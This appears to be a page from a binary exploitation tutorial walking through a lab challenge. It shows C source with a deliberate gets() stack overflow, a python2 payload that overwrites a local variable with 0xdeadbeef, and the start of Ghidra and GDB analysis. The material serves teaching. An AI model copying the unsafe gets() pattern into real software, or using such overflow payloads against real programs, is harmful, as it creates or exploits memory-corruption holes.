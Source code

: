 # 🫁 02-overwriting\_stack\_variables\_part2

So let's run the binary and try to test out the overflow

<figure><img src="../../../../.gitbook/assets/image (1199).png" alt=""><figcaption></figcaption></figure>

let's unhex the output value to understand what happended

<figure><img src="../../../../.gitbook/assets/image (1200).png" alt=""><figcaption></figcaption></figure>

let's look at the source code to see what happened

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void do_input(){
    int key = 0x12345678;
    char buffer[32];
    printf("yes? ");
    fflush(stdout);
    gets(buffer);
    if(key == 0xdeadbeef){
        printf("good job!!\n");
        printf("%04x\n", key);
        fflush(stdout);
    }
    else{
        printf("%04x\n", key);
        printf("...\n");
        fflush(stdout);
    }
}

int main(int argc, char* argv[]){
    do_input();
    return 0;
}
```

we see that we have a 32 size buffer and the key value needs to be equal to 0xdeadbeef but there's no input way of changing this value except of overwriting this

<figure><img src="../../../../.gitbook/assets/image (1201).png" alt=""><figcaption></figcaption></figure>

```
python2 -c 'print 32 * "A" + "deadbeef"'
```

So i tried overflowing the 32 size buffer with the value deadbeef but it only took the first 4 chars and reversed them

so we do the same thing but reverse the 2 dead to daed ->

<figure><img src="../../../../.gitbook/assets/image (1202).png" alt=""><figcaption></figcaption></figure>

ok now is going to be the tricky part, we are going to craft our payload and inject it in overwrite:

```
python2 -c 'print 32 * "A" + "\xef\xbe\xad\xde"'
python2 -c 'print 32 * "A" + "\xef\xbe\xad\xde"' > payload
./overwrite < payload
```

<figure><img src="../../../../.gitbook/assets/image (1203).png" alt=""><figcaption></figcaption></figure>

**`"\xef\xbe\xad\xde"`**:

* This is a string containing four specific byte values, represented in hexadecimal notation. Each `\xHH` sequence represents a single byte, where `HH` is the hexadecimal value of the byte.
* In this case, `"\xef\xbe\xad\xde"` represents the bytes with hexadecimal values `EF`, `BE`, `AD`, and `DE`.

The last four characters are non-printable and represent the bytes `EF`, `BE`, `AD`, and `DE`.

and since the string is reversed it overflows with deadbeef and validates the challenge

Now let's open up ghidra&#x20;

<figure><img src="../../../../.gitbook/assets/image (10) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can start by changing some of the values to look more like what we had in our C program:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

and just like that we see the comparaison that is being made, now let's hop on GDB

let's start with `info functions`

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we then go and disassemble main:

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see do\_input that seems interesting, let's disassmble it:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
